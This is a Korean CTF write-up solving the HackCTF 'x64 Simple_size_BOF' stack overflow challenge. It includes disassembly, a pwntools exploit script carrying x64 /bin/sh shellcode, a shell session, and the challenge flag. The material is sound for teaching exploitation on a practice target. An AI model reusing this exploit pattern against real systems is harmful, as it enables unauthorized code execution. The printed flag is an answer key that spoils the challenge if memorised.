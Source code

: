 # x64 Simple\_size\_BOF

---


`main()`의 코드는 다음과 같다.

```assembly
gdb-peda$ pd main
Dump of assembler code for function main:
   0x0000000000400636 <+0>:	push   rbp
   0x0000000000400637 <+1>:	mov    rbp,rsp
   0x000000000040063a <+4>:	sub    rsp,0x6d30
   0x0000000000400641 <+11>:	mov    rax,QWORD PTR [rip+0x200a08]        # 0x601050 <stdout@@GLIBC_2.2.5>
   0x0000000000400648 <+18>:	mov    ecx,0x0
   0x000000000040064d <+23>:	mov    edx,0x2
   0x0000000000400652 <+28>:	mov    esi,0x0
   0x0000000000400657 <+33>:	mov    rdi,rax
   0x000000000040065a <+36>:	call   0x400520 <setvbuf@plt>
   0x000000000040065f <+41>:	mov    edi,0x400728
   0x0000000000400664 <+46>:	call   0x4004e0 <puts@plt>
   0x0000000000400669 <+51>:	lea    rax,[rbp-0x6d30]
   0x0000000000400670 <+58>:	mov    rsi,rax
   0x0000000000400673 <+61>:	mov    edi,0x40074e
   0x0000000000400678 <+66>:	mov    eax,0x0
   0x000000000040067d <+71>:	call   0x4004f0 <printf@plt>
   0x0000000000400682 <+76>:	lea    rax,[rbp-0x6d30]
   0x0000000000400689 <+83>:	mov    rdi,rax
   0x000000000040068c <+86>:	mov    eax,0x0
   0x0000000000400691 <+91>:	call   0x400510 <gets@plt>
   0x0000000000400696 <+96>:	mov    eax,0x0
   0x000000000040069b <+101>:	leave  
   0x000000000040069c <+102>:	ret    
End of assembler dump.
```
```c
    int __cdecl main(int argc, const char **argv, const char **envp)
    {
      char v4; // [rsp+0h] [rbp-6D30h]
    
      setvbuf(_bss_start, 0LL, 2, 0LL);
      puts(&s);
      printf("buf: %p\n", &v4);
      gets(&v4);
      return 0;
    }
```
이 문제에서는 buf의 주소를 준다. 때문에 buf와 `main()` ret address와의 거리를 구해서 ret address를 buf로 조정하고 buf에 shellcode를 담으면 쉽게 풀 수 있다.

`main()+76`을 보면 rbp-0x6d30에 문자열을 입력 받고 있다. 이곳이 buf의 주소다. 때문에 0x6d30에 SFP(8bytes)를 더한 27960만큼 채운 후 buf의 주소를 적어주면 될 것이다. 이를 위한 payload는 다음과 같다.

**[shellcode 25bytes] + [dummy 27935bytes] + [buf_address]**

다음과 같은 익스 코드를 통해서 익스할 수 있었다.

```python
from pwn import*

p=remote('ctf.j0n9hyun.xyz', 3005)

p.recvuntil('buf: ')

string=p.recv(14)
buf_address=int(string,16)

log.info(hex(buf_address))

payload='\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05'
payload+='A'*27937
payload+=p64(buf_address)

p.sendline(payload)

p.interactive()
```

이때 x86의 shellcode와 x64의 shellcode는 다르다는 점을 유의해야 한다.
```bash
    sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/6.x64_Simple_size_BOF$ python ex.py
    [+] Opening connection to ctf.j0n9hyun.xyz on port 3005: Done
    [*] 0x7fff06fe78d0
    [*] Switching to interactive mode
    
    $ whoami
    attack
    $ ls
    flag
    main
    $ cat flag
    HackCTF{s000000_5m4ll_4nd_5m4ll_51z3_b0f}
```


**flag: HackCTF{s000000_5m4ll_4nd_5m4ll_51z3_b0f}**

